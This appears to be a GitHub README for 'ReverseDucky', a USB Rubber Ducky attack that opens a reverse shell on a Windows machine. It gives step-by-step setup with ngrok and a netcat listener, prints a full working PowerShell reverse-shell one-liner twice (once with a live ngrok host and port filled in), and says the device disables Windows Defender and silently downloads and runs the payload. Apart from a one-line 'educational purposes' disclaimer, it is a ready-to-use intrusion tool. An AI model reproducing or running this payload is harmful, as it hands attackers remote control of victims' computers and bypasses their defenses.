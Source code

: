 # ReverseDucky - Hahahaha quack quack!

Requirements
```
[x] USB Rubber Ducky

Payload: https://raw.githubusercontent.com/mkdirlove/ReverseDucky/main/payload.txt

Payload Generator: https://payloadstudio.com/community/

Ngrok: https://ngrok.com/download

Netcat: usually pre-installed in Linux distros like Kali Linux.
```

Start tunneling...
```
ngrok tcp 1337
```

Sample ngrok output...
```
K8s Gateway API support available now: https://ngrok.com/r/k8sgb

Session Status                online
Account                       mkdirlove (Plan: Free)
Version                       3.8.0
Region                        Asia Pacific (ap)
Latency                       31ms
Web Interface                 http://127.0.0.1:4040
Forwarding                    tcp://0.tcp.ap.ngrok.io:16038 -> localhost:1337

Connections                   ttl     opn     rt1     rt5     p50     p90
                              11      0       0.00    0.00    33.52   223.30 
```
After running ngrok you will notice the value of "Forwarding". Edit the payload below and replace NGROK_IP AND NGROK_PORT with the data from the value of "Forwarding".

```
$client = New-Object System.Net.Sockets.TCPClient("{NGROK_IP}",{NGROK_PORT});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Example:
```
$client = New-Object System.Net.Sockets.TCPClient("0.tcp.ap.ngrok.io",16038);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Open new terminal and run netcat listener and wait for a reverse connection from port 1337
```
nc -lvnp 1337
```

After plugging the USB Rubber Ducky on the target machine it will automatically disable the Windows Defender and open a hidden Powershell that will download the payload and execute it in the background.

```
This information is for educational purposes only.

~MR.$UD0
```
